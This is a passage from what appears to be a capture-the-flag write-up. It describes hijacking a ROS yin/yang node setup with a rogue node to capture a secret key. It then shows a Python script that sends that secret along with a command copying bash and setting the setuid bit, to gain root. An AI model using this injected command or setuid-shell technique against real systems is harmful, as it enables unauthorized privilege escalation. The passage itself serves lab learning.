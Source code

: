 With that we could start our server. To get the yang node to connect to our malicious node we need start the legitimate yin node first, then we need to start the yang node. Then start the malicious yin node with some trial and error you should get the secret key.

![](/assets/blog/sidequest241/trialerror.png)

Now it's time to hack "ourself" to get root, because we can use our new node to connect to yin from yin.

I modified the script from the package we already have.
```python
#!/usr/bin/python3

import rospy
import codecs
import os
from std_msgs.msg import String
from yin.msg import Comms
from yin.srv import yangrequest

class Yin:
    def __init__(self):
        self.messagebus = rospy.Publisher('messagebus', Comms, queue_size=50)
        rospy.init_node('doesntmatter')
        self.secret = "thisisasecretvaluethatyouwillneverguess"
        self.prompt_rate = rospy.Rate(0.5)

    
    def yin_request(self):
        resp = ""
        rospy.wait_for_service('svc_yang')
        print("Sending request")
        try:
            service = rospy.ServiceProxy('svc_yang', yangrequest)
            response = service(self.secret, 'cp /bin/bash /home/yin/bash && chmod +s /home/yin/bash', 'Yang', 'Yin')
        except rospy.ServiceException as e:
            print ("Failed: %s"%e)

    def run_yin(self):
        self.yin_request()
        while not rospy.is_shutdown():
            self.prompt_rate.sleep()

```
